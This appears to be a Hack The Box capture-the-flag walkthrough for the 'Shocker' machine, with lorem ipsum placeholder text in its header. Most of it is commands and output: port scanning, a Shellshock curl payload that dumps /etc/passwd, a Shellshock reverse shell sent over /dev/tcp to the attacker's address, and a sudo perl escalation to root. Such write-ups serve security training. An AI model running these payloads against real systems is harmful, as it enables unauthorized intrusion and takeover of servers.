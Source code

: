 ```yaml
---
title: Shocker - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-19
image: images/shocker_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/shocker_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/shocker]# nmap -Pn -n -sCV 10.10.10.56                                                                             (master✱)
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


  DIRB:
    + http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)

  NIKTO:
    Allowed HTTP Methods: GET, HEAD, POST, OPTIONS


2. Visiting the webpage there's an image of a blob with a hammer over him, saying "Don't bug me!".
    Binwalking the image gives nothing, so there's something hidden on the server.

    root@nidus:/git/htb/shocker# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh
      --- snip ---
      user                    [Status: 200, Size: 118, Words: 19, Lines: 8]

   As we find a .sh file on the server, we can try to see if shellshock is possible with this simple curl poc

   root@nidus:/git/htb/shocker# curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    lxd:x:106:65534::/var/lib/lxd/:/bin/false
    messagebus:x:107:111::/var/run/dbus:/bin/false
    uuidd:x:108:112::/run/uuidd:/bin/false
    dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
    sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
    shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash


3. We got code execution, grab yourself a reverse shell.

    root@nidus:/git/htb/shocker# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.10/4488 0>&1' http://10.10.10.56/cgi-bin/user.sh

    [root:/git/htb/shocker]# nc -lvnp 4488                                                                                            (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 47484
      bash: no job control in this shell
      shelly@Shocker:/usr/lib/cgi-bin$ whoami
        shelly
      shelly@Shocker:/usr/lib/cgi-bin$ cat ~/user.txt
        a66751f2be1833726a055593ef238628


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. There's nothing obvious in /home/shelly/, /tmp/, /opt/ or /dev/shm/, lets run 'sudo -l' to check if we can exploit any binary.

shelly@Shocker:/dev/shm$ sudo -l
  Matching Defaults entries for shelly on Shocker:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User shelly may run the following commands on Shocker:
      (root) NOPASSWD: /usr/bin/perl

  shelly@Shocker:/dev/shm$ sudo perl -e 'exec "/bin/sh";'
  # whoami
    root
  # cat /root/root.txt
    fabc18579c97f3e07d51ac084d01d6fb


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

